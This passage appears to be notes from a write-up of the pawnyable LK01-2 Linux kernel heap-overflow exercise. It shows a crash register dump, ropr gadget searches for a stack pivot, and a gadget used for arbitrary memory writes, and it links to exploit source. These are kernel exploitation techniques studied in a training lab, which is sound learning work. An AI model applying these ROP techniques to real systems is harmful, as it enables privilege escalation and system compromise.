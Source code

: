Need to assign `rsp` a heap address we can write to. From the crash caused by
`ioctl` (in [src/02.control-rip/control-rip.c](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/02.control-rip/control-rip.c)),

~~~c
  ioctl(spray[i], 0xdeadbeef, 0xcafebabe)
~~~

the following registers get overwritten:

~~~
RIP: 0010:0xffffffffdead0c00
Code: Unable to access opcode bytes at RIP 0xffffffffdead0bd6.
RSP: 0018:ffffc9000012fe10 EFLAGS: 00000286
RAX: ffffffffdead0c00 RBX: ffff888002fcd400 RCX: 00000000deadbeef
RDX: 00000000cafebabe RSI: 00000000deadbeef RDI: ffff888002fcd000
RBP: ffffc9000012fea8 R08: 00000000cafebabe R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: 00000000deadbeef
R13: ffff888002fcd000 R14: 00000000cafebabe R15: ffff888002faf700
~~~

Difficult to find useful gadgets to assign `rsp` one of the registers we control the value of, such as:

~~~
[cpey@nuc 03.stack_pivot]$ ropr vmlinux --noisy --nosys --nojop -R "mov rsp, rcx; ret;"

==> Found 0 gadgets in 1.489 seconds
[cpey@nuc 03.stack_pivot]$ ropr vmlinux --noisy --nosys --nojop -R "mov rsp, rdx; ret;"

==> Found 0 gadgets in 1.476 seconds
~~~

Instead we will use:

~~~
[cpey@nuc 03.stack_pivot]$ ropr vmlinux --noisy --nosys --nojop -R "push rdx;.*pop rsp;.*ret;"
0xffffffff811cd945: push rdx; push 0x584a8348; adc [rbx+0x41], bl; pop rsp; pop rbp; ret;
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;              <--
0xffffffff814decce: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;

==> Found 3 gadgets in 1.503 seconds
~~~

See: [src/04.heapbof-krop/heapbof-krop.c](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/04.heapbof-krop/heapbof-krop.c)

## Exploiting AAR/AAW

When not possible to pivot the stack, being rdx and ecx controllable, you can
write any 4-byte value to any address by calling this gadget:

~~~sh
$ ropr vmlinux --noisy --nosys --nojop -R "mov \[rdx\], rcx; ret;"
...
0xffffffff811b7dd6: mov [rdx], rcx; ret;
~~~
